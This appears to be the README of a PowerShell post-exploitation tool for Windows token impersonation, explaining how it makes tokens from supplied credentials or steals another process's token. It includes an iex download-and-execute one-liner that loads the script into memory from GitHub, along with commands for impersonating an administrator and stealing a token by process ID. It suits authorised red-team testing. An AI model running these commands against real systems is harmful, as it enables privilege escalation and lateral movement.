 # Token-Impersonation
Make a Token (local admin rights not required) or Steal the Token of the specified Process ID (local admin rights required)

### Note:

The logon session created has the same local identifier as the caller. If you run commands that access local resources (like whoami), they will appear to be run under the original user context. 

This is because, locally, nothing has changed. The LUID is the same as the caller, so it appears as though you're still the original user.

However, the alternate credentials are used when accessing a remote resource.

This logon type is designed specifically for cases where you need to specify alternate credentials for outbound network connections, without affecting the local user context. 

This also means that the created token is not applicable to anything you may want to run on the current machine.

Use `Rev2Self` to drop any impersonation that may be in play.

### Load in memory
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Token-Impersonation/main/Token-Impersonation.ps1')
```

### Make a token
```
Token-Impersonation -MakeToken -Username "Administrator" -Domain "ferrari.local" -Password "P@ssw0rd!"
```

### Steal a token
```
Token-Impersonation -Steal -ProcessID 5380
```

### Rev2Self
```
Token-Impersonation -Rev2Self
```

![image](https://github.com/Leo4j/Token-Impersonation/assets/61951374/e11e3c02-19c7-4390-8322-cf459214e9e5)

![image](https://github.com/Leo4j/Token-Impersonation/assets/61951374/b4bf9c3c-aea2-4d95-bba1-73e0d36bb272)



